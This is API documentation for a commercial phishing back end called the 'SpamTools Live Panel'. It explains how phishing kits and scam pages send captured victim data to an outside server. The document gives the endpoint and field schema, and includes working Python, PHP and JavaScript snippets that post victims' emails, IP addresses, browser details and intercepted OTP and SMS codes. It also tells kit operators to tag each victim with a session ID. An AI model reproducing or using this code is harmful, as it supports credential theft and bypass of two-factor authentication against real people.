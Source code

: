 # 📥 Adding Data to Live Panel

Once your subscription hash is verified and active, you can start sending captured data from your phishing kits, scam pages, or payloads directly to the **SpamTools Live Panel**.

---

## ✅ Endpoint

```
POST https://spamtools.org/wp-json/spamtools/v1/add-subscription-data
```

---

## 🧾 Required Fields

| Field         | Type     | Required | Description                                  |
|--------------|----------|----------|----------------------------------------------|
| `hash`        | string   | ✅       | Your valid subscription hash                 |
| `user_session`| string   | ✅       | Unique session ID per victim/session         |
| `data1`       | string   | ❌       | Any captured info (e.g., name, email, etc.)  |
| `data2`       | string   | ❌       | Any captured info (e.g., browser, OS)        |
| `data3`       | string   | ❌       | Any captured info (e.g., IP, location)       |
| `data4`       | string   | ❌       | Any extra log info or custom payload         |

> 🧠 `user_session` is used to group multiple logs together. If the same `user_session` is reused, data is **appended** to existing logs instead of creating a new row.

---

## 📦 Example Payload

```json
{
  "hash": "abc123hashvalue",
  "user_session": "9c7a3edb-2f2f-11ee-be56-0242ac120002",
  "data1": "Email: user@example.com",
  "data2": "Browser: Chrome",
  "data3": "IP: 192.168.1.2",
  "data4": "OTP: 823190"
}
```

---

## ✅ Example Response (Success)

```json
{
  "success": "Data added successfully."
}
```

---

## ❌ Possible Error Responses

### Missing required fields:

```json
{
  "error": "Hash and User Session are required."
}
```

### Invalid or expired hash:

```json
{
  "error": "Invalid hash."
}
```

```json
{
  "error": "Hash is expired."
}
```

### Update failure:

```json
{
  "error": "Failed to update data."
}
```

### Insert failure:

```json
{
  "error": "Failed to insert data."
}
```

---

## 💻 Code Snippets

### 🐍 Python (Minimal Example)

```python
import requests

payload = {
    "hash": "your_subscription_hash",
    "user_session": "session-uuid-or-id",
    "data1": "Email: victim@example.com",
    "data2": "Browser: Firefox",
    "data3": "IP: 192.168.0.1",
    "data4": "Captured OTP: 372829"
}

res = requests.post("https://spamtools.org/wp-json/spamtools/v1/add-subscription-data", json=payload)

print(res.status_code, res.json())
```

---

### 🐘 PHP (cURL)

```php
<?php
$payload = json_encode([
    "hash" => "your_subscription_hash",
    "user_session" => "unique-session-id",
    "data1" => "Email: test@example.com",
    "data2" => "Device: Android",
    "data3" => "IP: 192.0.2.1",
    "data4" => "SMS Code: 999111"
]);

$ch = curl_init("https://spamtools.org/wp-json/spamtools/v1/add-subscription-data");
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_HTTPHEADER, ["Content-Type: application/json"]);
curl_setopt($ch, CURLOPT_POSTFIELDS, $payload);

$response = curl_exec($ch);
curl_close($ch);

echo $response;
?>
```

---

### 🌐 JavaScript (Browser/Node)

```js
fetch("https://spamtools.org/wp-json/spamtools/v1/add-subscription-data", {
  method: "POST",
  headers: {
    "Content-Type": "application/json"
  },
  body: JSON.stringify({
    hash: "your_subscription_hash",
    user_session: "session-id",
    data1: "Username: test",
    data2: "Browser: Chrome",
    data3: "IP: 203.0.113.1",
    data4: "OTP: 129384"
  })
})
  .then(res => res.json())
  .then(data => console.log(data))
  .catch(err => console.error("Error:", err));
```

---

## 📌 Notes

- Each kit/logger/page should generate a **unique session ID per victim** to avoid overwriting logs.
- You can reuse the same `user_session` to **append logs progressively**.
- Make sure your subscription hash is valid before using this endpoint.

---

